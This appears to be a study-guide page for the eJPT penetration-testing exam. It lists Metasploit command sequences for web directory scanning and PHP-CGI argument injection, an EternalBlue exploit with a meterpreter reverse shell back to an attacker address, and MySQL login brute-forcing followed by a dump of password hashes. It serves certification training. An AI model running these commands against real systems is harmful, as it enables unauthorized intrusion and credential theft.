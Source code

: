 ### **Common eJPT Exam Scenarios and Solutions**

#### **Scenario 1: Web Application Penetration Testing**
**Challenge:** Identify and exploit web application vulnerabilities
```bash
# Web service enumeration
use auxiliary/scanner/http/dir_scanner
set RHOSTS target_web_server
set DICTIONARY /usr/share/metasploit-framework/data/wordlists/directory.txt
run

# Web application exploitation
use exploit/multi/http/php_cgi_arg_injection
set RHOSTS web_target
set TARGETURI /vulnerable_script.php
exploit
```

#### **Scenario 2: Windows SMB Exploitation**  
**Challenge:** Exploit Windows file sharing vulnerabilities
```bash
# SMB vulnerability detection
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS windows_targets
run

# EternalBlue exploitation
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS vulnerable_target
set payload windows/x64/meterpreter/reverse_tcp
set LHOST attacker_ip
exploit
```

#### **Scenario 3: Database Server Compromise**
**Challenge:** Gain access to database systems
```bash
# MySQL brute force
use auxiliary/scanner/mysql/mysql_login
set RHOSTS database_server
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/common_passwords.txt
run

# Post-exploitation database access
use auxiliary/admin/mysql/mysql_sql
set RHOSTS compromised_db
set USERNAME root
set PASSWORD discovered_password
set SQL "SELECT user, password FROM mysql.user"
run
```
